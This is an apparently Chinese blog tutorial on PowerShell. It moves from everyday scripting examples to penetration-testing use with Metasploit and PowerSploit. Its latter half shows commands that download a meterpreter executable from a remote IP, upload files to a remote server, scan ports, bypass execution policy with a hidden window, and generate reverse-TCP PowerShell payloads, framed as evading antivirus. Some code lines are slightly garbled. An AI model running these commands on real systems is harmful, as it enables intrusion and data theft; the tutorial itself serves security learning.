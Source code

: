 # 与Powershell

 **大家都在说windows7的防护水平大大高于windows xp了，但是并不都是如此，Win7下给出现了一个强大高级cmd————&gt;powershell。**该shell最大的特点就是支持脚本编程，酷似linux的bash（准确说应该是各种sh），下面就简要介绍下它的功能，以及如何与metasploit配合\(今年北美著名的安全会议[Derbycon](https://www.derbycon.com/)给出的，这个会议是美国国防部下属的DARPA资助的，内容非常好，建议大家关注\)：

##  基本命令

 开始–&gt;运行–&gt;powershell 开启powershell界面

 get-command \*-service 获得服务相关的命令   
 get-help get service 获得命令的帮助

 支持脚本文件的命令集 脚本的后缀名为.PS1,支持管道：

##  powershell使用示例：

 停止所有目前运行中的以”p”字符开头命名的程序：

```bash
PS> get-process p* | stop-process
```

 停止所有目前运行中的所有使用大于1000MB存储器的程序：

```bash
PS> get-process | where { $_.WS -gt 1000MB } | stop-process
```

 计算一个目录下文件内的字节大小：

```bash
PS> get-childitem | measure-object -property length -sum
```

 等待一个叫做”notepad”的程序运行退出：

```bash
PS> $processToWatch = get-process notepad
PS> $processToWatch.WaitForExit()
```

 将”hello, world!”字符串转为英文大写字符，成为”HELLO, WORLD!”：

```bash
PS> “hello, world!”.ToUpper()
```

 在字符串”string”的第1个字符后插入字符串”ABC”，成为”sABCtring”：

```bash
PS> “string”.Insert(1, “ABC”)
```

 订阅一个指定的RSS Feed并显示它最近8个主题：

```bash
PS> $rssUrl = “http://blogs.msdn.com/powershell/rss.aspx”
PS> $blog = xml.DownloadString($rssUrl)
PS> $blog.rss.channel.item | select title -first 8
```

###  使用powershell执行shellcode

 使用dns payloads的方式通过powershell执行meterpreter，达到免杀、过IPS的效果

###  使用powershell进行文件的上传、下载和端口扫描

 下载

```text
ps>Import-Module BitsTransfer
ps>Start-BitsTransfer http://ip/meter.exe c:\meter.exe
```

 上传

```text
Start-BitsTransfer -Source c:\upload.txt -Destination http://ip/upload/upload.txt -transfertype upload
```

 端口扫描

```text
ps c:>1..1024 | %{ echo ((new-object Net.Sockets.TcpClient).Connect(“10.1.1.14”,$)) “$ is open”} 2>$null
25 is open
```

##  powersploit 堪比meterpreter的后渗透攻击框架

 Carlos Perez国外大牛设计了基于powersploit的渗透脚本集合，用于授权渗透测试使用。。。。（大家都知道怎么回事），里面的主要包含了一下几个脚本

```bash
Inject-Dll(注入dll到指定进程)
Inject-Shellcode（注入shellcode到执行进程）
Encrypt- Script（文本或脚本加密）
Get-GPPPassword（通过groups.xml获取明文密码）
Invoke- ReverseDnsLookup（扫描 DNS PTR记录）
```

 具体的代码就请查看作者的github代码仓库：[powerexploit](https://github.com/mattifestation/PowerSploit)

##  Metasploit与powershell结合

 西点军校毕业的这货[Chris Gates](http://carnal0wnage.attackresearch.com/)说windows就是他的backdoor，为什么？ 首先就是powershell提供了上传和下载功能，这在渗透过程中能省很多事，其次他说没有见过哪些Meterpreter的事Powershell做不了的，举例：

```bash
* Powershell hashdump（in SET）
* Powershell exec method in MSSQL_Payload * PowerSploit(上面提到了)
```

 绕过powershell本身的权限限制：

```bash
-powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive —NoProfile -WindowStyle Hidden —File “C:\do_neat_ps_shit.ps1”
```

 使用Metasploit生成Powershell

```bash
msf_ payload(reverse_tcp) > generate -t psh -f powershellexec.ps1
```

 使用批处理文件从Meterpreter中运行Powershell

```bash
c:\type run_ps.bat powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -WindowStyle Hidden -File C:\ipinfo2.ps1
```

 示例：

```bash
meterpreter > execute -H -f cmd.exe -a ‘/c C:\runps.bat’ Process 28536 created. meterpreter>
–snip–
```

##  总结

 windows7下的powershell功能不可小觑，应该一起广大安全爱好研究这的研究和重视，后面还会给出相关powershell安全研究的讨论。最后推荐两个博客：  
 [中文博客](http://www.pstips.net/)：研究powershell中文博客,包含powershell的命令解释、脚本编程的各种小技巧  
 [英文博客](http://www.exploit-monday.com/)：国外某大牛博客，对powershell有很多安全方面的研究，国外黑客大会推荐

